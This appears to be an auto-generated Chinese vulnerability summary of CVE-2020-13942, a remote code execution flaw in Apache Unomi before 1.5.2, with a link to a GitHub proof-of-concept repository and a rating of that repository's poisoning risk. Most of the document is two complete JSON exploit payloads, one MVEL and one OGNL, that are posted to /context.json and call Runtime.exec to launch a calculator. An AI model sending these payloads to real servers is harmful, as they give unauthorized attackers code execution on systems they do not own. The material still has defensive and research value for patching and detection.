 ## CVE-2020-13942 - Apache Unomi RCE

**漏洞编号:** CVE-2020-13942

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Unomi

**危害等级:** 高危，允许未经授权的远程代码执行

**影响版本:** < 1.5.2

**利用条件:** 需要可以访问/context.json端点

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2020-13942 存在于 Apache Unomi 1.5.2 之前的版本中。攻击者可以通过向 `/context.json` 端点注入恶意的 OGNL 或 MVEL 脚本来利用此漏洞，实现远程代码执行。

**漏洞利用方式：**

1.  **确定目标版本：** 确认目标 Apache Unomi 服务器的版本低于 1.5.2。
2.  **发送恶意请求：**  向 `/context.json` 端点发送包含恶意 OGNL 或 MVEL 表达式的 POST 请求。

    *   **MVEL POC：**
        ```json
        {
            "filters": [
                {
                    "id": "boom",
                    "filters": [
                        {
                            "condition": {
                                 "parameterValues": {
                                    "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"gnome-calculator\");"
                                },
                                "type": "profilePropertyCondition"
                            }
                        }
                    ]
                }
            ],
            "sessionId": "boom"
        }
        ```

    *   **OGNL POC：**
        ```json
        {
          "personalizations":[
            {
              "id":"gender-test",
              "strategy":"matching-first",
              "strategyOptions":{
                "fallback":"var2"
              },
              "contents":[
                {
                  "filters":[
                    {
                      "condition":{
                        "parameterValues":{
                          "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\" gnome-calculator\"))",
                          "comparisonOperator":"equals",
                          "propertyValue":"male"
                        },
                        "type":"profilePropertyCondition"
                      }
                    }
                  ]
                }
              ]
            }
          ],
          "sessionId":"boom"
        }
        ```
3.  **执行代码：**  如果漏洞存在且利用成功，服务器将执行恶意代码，例如打开计算器 (`gnome-calculator`)。

**有效性：**

提供的 POC 代码是有效的。搜索引擎结果和漏洞库信息均表明，此漏洞允许通过注入恶意 OGNL 或 MVEL 表达式来执行任意代码。该 POC 提供了两种利用方式：MVEL 和 OGNL。

**投毒风险：**

提供的代码片段中没有明显的恶意或隐藏功能。POC 主要目的是展示如何利用漏洞执行命令（例如启动计算器）。 因此，投毒风险评估为0%。


**项目地址:** [eugenebmx/CVE-2020-13942](https://github.com/eugenebmx/CVE-2020-13942)

**漏洞详情:** [CVE-2020-13942](https://nvd.nist.gov/vuln/detail/CVE-2020-13942)